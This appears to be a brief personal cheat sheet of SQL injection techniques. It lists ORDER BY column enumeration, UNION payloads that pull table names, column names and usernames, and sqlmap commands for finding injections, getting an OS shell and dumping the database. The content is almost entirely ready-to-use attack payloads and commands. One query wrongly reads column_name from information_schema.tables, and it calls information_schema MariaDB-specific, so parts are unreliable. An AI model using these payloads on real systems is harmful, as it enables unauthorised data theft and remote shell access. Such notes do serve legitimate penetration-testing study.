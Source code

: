 Column enumeration

`1 ORDER BY X` where X is the column number 

Enumeration through query

`1 union all <query>`

Note that the query will need to result in the same number of columns to avoid errors.

`<query>` could be:

- `select 1, table_name from information_schema.tables` (this is MariaDB specific)
- `select 1, column_name from information_schema.tables where table_name='users'`
- `select 1, username from users`

SQLMAP

- `sqlmap -u <URL>?<param>=X -p "<param>"` finds potential SQL injections, as well as dbms version
- `sqlmap -u <URL>?<param>=X -p "<param>" --dbms=<DBMS> --os-shell` gives shell
- `sqlmap -u <URL>?<param>=X -p "<param>" --dbms=<DBMS> --dump` dumps the db
